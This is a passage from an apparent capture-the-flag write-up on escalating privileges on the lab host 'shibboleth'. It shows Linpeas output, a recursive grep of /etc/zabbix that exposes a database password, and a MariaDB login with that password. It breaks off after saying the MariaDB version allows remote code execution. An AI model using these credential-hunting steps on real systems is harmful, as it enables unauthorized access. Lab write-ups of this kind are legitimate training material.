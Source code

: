 We got user access. Now to root. We will find database password under ‘zabbix’ sever configuration file. You can get it from Linpeas result or find it manually.

```
╔══════════╣ Analyzing Zabbix Files (limit 70)
-rw-r----- 1 root ipmi-svc 21863 Apr 24  2021 /etc/zabbix/zabbix_server.conf
LogFile=/var/log/zabbix/zabbix_server.log
LogFileSize=0
PidFile=/run/zabbix/zabbix_server.pid
SocketDir=/run/zabbix
DBName=zabbix
DBUser=zabbix
DBPassword
FpingLocation=/usr/bin/fping
Fping6Location=/usr/bin/fping6
LogSlowQueries=3000
StatsAllowedIP=127.0.0.1

----------------------------------------------------------------------------

ipmi-svc@shibboleth:/$ grep -iR 'password' /etc/zabbix/ 2>/dev/null

/etc/zabbix/zabbix_server.conf.dpkg-dist:### Option: DBPassword
/etc/zabbix/zabbix_server.conf.dpkg-dist:#      Database password.
/etc/zabbix/zabbix_server.conf.dpkg-dist:#      Comment this line if no password is used.
/etc/zabbix/zabbix_server.conf.dpkg-dist:# DBPassword=
/etc/zabbix/zabbix_server.conf:### Option: DBPassword
/etc/zabbix/zabbix_server.conf:#        Database password.
/etc/zabbix/zabbix_server.conf:#        Comment this line if no password is used.
/etc/zabbix/zabbix_server.conf:DBPassword=bloooarskybluh
```

You will also find the database name and username too from the same file. Now we can login into DB.

```
ipmi-svc@shibboleth:/$ mysql -u zabbix -p -D zabbix
Enter password:

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 13528
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and s.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [zabbix]>
```

As you can see the running MariaDB version, it is vulnerable to remote code execution.
